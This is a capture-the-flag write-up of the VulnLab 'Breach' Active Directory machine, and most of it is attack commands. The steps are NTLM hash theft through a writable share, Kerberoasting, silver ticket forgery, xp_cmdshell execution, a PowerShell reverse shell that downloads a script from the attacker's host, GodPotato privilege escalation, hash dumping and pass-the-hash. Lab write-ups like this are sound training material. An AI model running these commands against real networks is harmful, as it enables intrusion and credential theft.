 ```yaml
---
title: VulnLab -- Breach Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,Silver Ticket,MSSQL Abuse,NTLM Relaying]
image:
    path: images/breach-banner.png
---
```

# Breach

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Breach** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/breach-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3268,51742,51725,80,464,9389,3269,636,1433,135,593,5985,139,49667 --min-rate=1000 10.10.117.12
```

![image.png](../images/breach.png)

Now let’s go and enumerate the shares

```bash
nxc smb breach.vl -u 'guest' -p '' --shares
```

![image.png](../images/breach%201.png)

> Notice that we got access to two shares
> 

let’s connect to the users share

```bash
smbclient \\\\breach.vl\\Users -U "breach.vl\guest"
```

![image.png](../images/breach%202.png)

we didn’t find anything interesting so let’s go and get the domain users

```bash
nxc smb breach.vl -u 'guest' -p '' --rid-brute 10000
```

![image.png](../images/breach%203.png)

now save the results and let’s extract the users

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/breach%204.png)

Notice that we have a writable share so let’s go create a malisons file to help us steal the ntlm hashes of any user enter the share

```bash
python3 ntlm_theft.py --generate all --server 10.8.5.233 --filename remo
```

![image.png](../images/breach%205.png)

Now let’s open responder to catch the ntlm hashes

```bash
sudo responder -I tun0
```

![image.png](../images/breach%206.png)

now let’s upload the generated files

```bash
smbclient \\\\breach.vl\\share -U "breach.vl\guest"
```

![image.png](../images/breach%207.png)

now let’s put the generated files

```bash
prompt off
mput *
```

![image.png](../images/breach%208.png)

Now let’s go back to responder and see if we got any hashes

![image.png](../images/breach%209.png)

and we got the hash of Julia.Wong so let’s crack it

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/breach%2010.png)

> As we see we got the password of Julia
> 
> 
> username: Julia.Wong
> password: Computer1
> 

Now let’s see if it’s working

```bash
nxc smb breach.vl -u 'Julia.Wong' -p 'Computer1'
```

![image.png](../images/breach%2011.png)

And it’s working!

Now let’s get bloodhound

```bash
bloodhound-python -ns 10.10.117.12 -d breach.vl -u Julia.Wong -p Computer1 -c all --zip
```

![image.png](../images/breach%2012.png)

Now let’s open the bloodhound and see if we have interesting permissions

![image.png](../images/breach%2013.png)

> Notice that our user is member of Print Operators
> 

Now let’s see the kerbeorstable users 

```bash
impacket-GetUserSPNs breach.vl/'Julia.Wong':'Computer1' -target-domain breach.vl -dc-ip 10.10.117.12 -request -outputfile crackme.txt
```

![image.png](../images/breach%2014.png)

Now let’s try to crack it’s passowrd

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/breach%2015.png)

> And we go the password of the svc_sql
username: svc_mssql
password: Trustno1
> 

Now let’s try to login to the MSSQL service

```bash
nxc mssql breach.vl -u svc_mssql -p 'Trustno1'
```

![image.png](../images/breach%2016.png)

Now let’s get a silver ticket to forge administrator for MSSQLservice

```bash
impacket-ticketer -domain breach.cl -dc-ip 10.10.117.12 -domain-sid S-1-5-21-2330692793-3312915120-706255856 -spn MSSQLSvc/breachdc.breach.vl:1433 administrator -nthash 69596C7AA1E8DAEE17F8E78870E25A5C
```

![image.png](../images/breach%2017.png)

Now let’s export the ticket

```bash
export KRB5CCNAME=administrator.ccache
```

![image.png](../images/breach%2018.png)

Now let’s connect to MSSQL Service

```bash
impacket-mssqlclient -k breachdc.breach.vl
```

![image.png](../images/breach%2019.png)

now let’s enable the xp_cmdshell function

```bash
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

![image.png](../images/breach%2020.png)

Now let’s try to execute commands

```bash
exec master..xp_cmdshell 'whoami'
```

![image.png](../images/breach%2021.png)

And we got code execution so let’s go and  get a reverse shell

Now let’s open a listener

```bash
nc -lvnp 1337
```

![image.png](../images/breach%2022.png)

now let’s go and execute a reverse shell

```bash
exec master..xp_cmdshell "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.8.5.233/rev.ps1')"
```

![image.png](../images/breach%2023.png)

and we go a shell!

Now let’s see our privileges 

```bash
whoami /all
```

![image.png](../images/breach%2024.png)

> Notice that we have the Impersonation privileges
> 

So let’s download and execute the God Potato to get system access

```bash
 .\gp.exe -cmd "cmd /c whoami"
```

![image.png](../images/breach%2025.png)

Now let’s add Julia.Wong as a local administrator

```bash
.\gp.exe -cmd "cmd /c net localgroup administrators Julia.Wong /add"
```

![image.png](../images/breach%2026.png)

Now let’s dump the hashes using secrets dump

```bash
impacket-secretsdump breach.vl/Julia.Wong:'Computer1'@10.10.117.12
```

![image.png](../images/breach%2027.png)

Now let’s login as administrator

```bash
evil-winrm -i breach.vl -u administrator -H 'd9a47efd620c2f6d349dd035274d2117'
```

![image.png](../images/breach%2028.png)

now let’s go to the administrator folder and get the flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/breach%2029.png)

Amazing we got the root flag 🥳

![image.png](../images/breach%2030.png)

That’s it for the **Breach** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX